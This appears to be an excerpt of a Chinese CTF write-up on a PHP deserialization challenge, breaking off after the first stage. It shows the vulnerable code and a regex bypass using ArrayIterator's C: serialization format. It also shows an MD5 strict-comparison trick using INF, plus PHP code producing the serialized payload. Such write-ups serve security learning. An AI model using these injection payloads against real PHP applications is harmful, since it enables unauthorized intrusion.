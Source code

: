 ```
if (isset($_GET['user'])) {
    $user = $_GET['user'];
    if (!preg_match("/^[Oa]:[\d]+/i", $user)) {
        unserialize($user);
    }
    else {
        echo("不是吧，第一层都绕不过去？？？<br>");
    }
}
else {
    echo("快帮我找找她！<br>");
}
```

在CTFshow上有一道类似的题目：[愚人杯3rd \[easy\_php\] (yuque.com)](https://www.yuque.com/boogipop/tdotcs/hobe2yqmb3kgy1l8?singleDoc#)，可以参考绕过Oa:\\d的正则，使用C属性

要先进入useless类的destruct魔术方法里找到key

```
$bool=!is_array($this->QW)&&!is_array($this->YXX)&&(md5($this->QW) === md5($this->YXX)) && ($this->QW != $this->YXX) and $random==='newbee';#这个newbee不用管他，对判断语句是没有影响的
```

对于这段判断条件来说，MD5强比较由于前面限制不能为数组，就不能用数组来绕过，同时由于是GET方式传参，在网上能够搜到一些CTF的MD5强碰撞往往是以一些不可见字符组成的字符串，会被url解码从而导致比较失失败，这里偶然间看到一个MD5合集，又学到一个新姿势：[php-md5类型题目汇总 | dota\_st (wlhhlc.top)](https://www.wlhhlc.top/posts/16813/#pass8)

```
var_dump(md5('INF')===md5(INF));
#bool(true) 很巧妙的方式，INF是无限大
```

```
<?php
class useless {
    private $seeyou;
    public $QW='INF';
    public $YXX=INF;

}

$a=new useless();
$b=new ArrayIterator(array($a));
$a=serialize($b);
echo $a;
#C:13:"ArrayIterator":103:{x:i:0;a:1:{i:0;O:7:"useless":3:{s:15:"%00useless%00seeyou";N;s:2:"QW";s:3:"INF";s:3:"YXX";d:INF;}};m:a:0:{}}即可绕过第一层
```

进入第二层：
